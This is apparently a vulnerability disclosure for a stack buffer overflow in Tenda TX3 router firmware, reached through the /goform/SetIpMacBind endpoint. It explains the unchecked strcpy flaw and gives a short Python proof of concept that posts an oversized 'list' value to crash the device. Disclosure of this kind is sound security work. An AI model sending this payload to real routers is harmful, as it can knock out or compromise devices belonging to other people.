

# Tenda TX3 SetIpMacBind
### Overview
vendor: Tenda

product: TX3

version: V16.03.13.11_multi

type: Buffer Overflow

### Vulnerability Description
A vulnerability has been found in Tenda TX3 V16.03.13.11_multi. This vulnerability can be triggered through the route /goform/SetIpMacBind. The manipulation of the argument list leads to buffer overflow. The attack is possible to be carried out remotely. The exploit has been disclosed to the public and may be used.
### Vulnerability Details
In function fromSetIpMacBind line 29, it reads in a user-provided parameter `list`. The variable `Var` is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `s_3`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests
url = 'http://192.168.0.1/goform/SetIpMacBind'
headers = {
    'Host': '192.168.0.1',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
}
data = {
    'bindnum': '1',
    'list': 'a' * 1000 + '\n' + 'b' * 1000
}
response = requests.post(url, headers=headers, data=data)

```
